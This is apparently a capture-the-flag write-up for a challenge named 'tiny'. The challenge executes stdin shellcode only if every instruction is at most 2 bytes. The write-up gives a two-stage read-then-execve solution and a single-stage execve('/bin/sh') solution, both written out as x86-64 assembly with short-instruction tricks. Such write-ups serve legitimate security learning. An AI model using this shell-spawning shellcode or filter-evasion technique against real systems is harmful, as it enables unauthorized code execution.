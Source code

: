 # tiny

tiny reads from stdin and executes what it reads as shellcode.
The problem is that it uses libcapstone to disassemble the shellcode and it checks whether the shellcode contains instructions with more than 2 bytes. If it does, it exits withou executing our shellcode.

## First Solution

This is the first solution I came up with. It's not the best one, but it works. Basically, it is multistage exploit. The first stage is a shellcode that reads the second stage from stdin. The second stage is the actual shellcode that spawns a shell.

### First Stage

```asm
xor edi, edi
push rdx
pop rsi
xor edx, edx
push 100
pop dx
syscall
```

- RDI: is set to 0, so the read syscall will read from stdin.
- RSI: it must be set to the address where the shellcode will be written. The trick to have instructions with less than 2 bytes is to use POP/PUSH instead of MOV.
- RDX: is set to 100, so the read syscall will read 100 bytes. The same trick used for RSI is used here.
- RAX: it's not changed because it already contains 0 (the read syscall number).

### Second Stage

```asm
mov rdi, rsi
add rdi, 0x22
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: it must be set to the address of the string "/bin/sh". 0x22 is the offset of the string from the address where the shellcode is written.
- RAX: it's set to 0x3b (the execve syscall number).
- RSI: it's set to 0.
- RDX: it's set to 0.

Note: Why 0x22? Because the first stage is 12 byte long. The second one 22. Then 34=0x22. We need to consider the first stage because the RIP at the end of the first stage will point right after the first stage and we are writing at the beginning of the first stage. In fact, we need to put also 12 NOPs at the beginning of the second stage.

## Second Solution

This is the second solution I came up with. It's better than the first one because it's a single stage exploit. The shellcode doesn't contain instructions with more than 2 bytes.

```asm
push rdx
pop rax
add al, 0x10
push rax
pop rdi
xor eax, eax
mov al, 0x3b
xor edx, edx
xor esi, esi
syscall
.string "/bin/sh"
```

- RAX: it's set to RDX+0x10. RDX contains the address of the shellcode, so RAX will contain the address of the string "/bin/sh" and 0x10 is the offset of the string from the address of the shellcode in fact the shellcode is 16 byte long.
- RDI: it's set to RAX. We are using RAX here to temporarily store the address of the string "/bin/sh" because for some reason the ``add al, 0x10`` it's just 2 bytes long.
- RAX: it's set to 0x3b (the execve syscall number).
- RSI: it's set to 0.
- RDX: it's set to 0.

